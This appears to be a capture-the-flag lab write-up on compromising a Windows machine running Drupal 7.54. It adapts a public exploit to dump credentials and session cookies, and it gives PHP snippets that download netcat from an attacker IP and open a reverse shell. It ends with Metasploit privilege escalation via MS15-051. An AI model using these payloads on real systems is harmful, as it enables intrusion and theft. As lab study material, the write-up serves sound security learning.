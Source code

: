 ![[Pasted image 20231012143115.png]]

Heading to the webpage, we're met with Drupal
![[Pasted image 20231012143144.png]]

With some testing, and checking the robots.txt, we notice:
![[Pasted image 20231012143323.png]]

As we can see, we now know the exact version number of the CMS being used.
![[Pasted image 20231012143342.png]]

With some research "Drupal 7.54 exploit" we instantly are met with:
![[Pasted image 20231012144251.png]]

We used the exploit, but we had to alter some of the code:
Originally i only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![[Pasted image 20231012144350.png]]

So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.
![[Pasted image 20231012144445.png]]

What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions, that show that /rest is also a possible endpoint.

With that fixed:
![[Pasted image 20231012144645.png]]

Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![[Pasted image 20231012144927.png]]

Also the session information:
![[Pasted image 20231012144951.png]]

So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![[Pasted image 20231012151148.png]]

Here, we put the session names value into the name section, and the id into the value:
![[Pasted image 20231012151217.png]]

I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it through Drupal.

Going to be following this:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce

For this, it will only work for versions of Drupal before V8.

So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
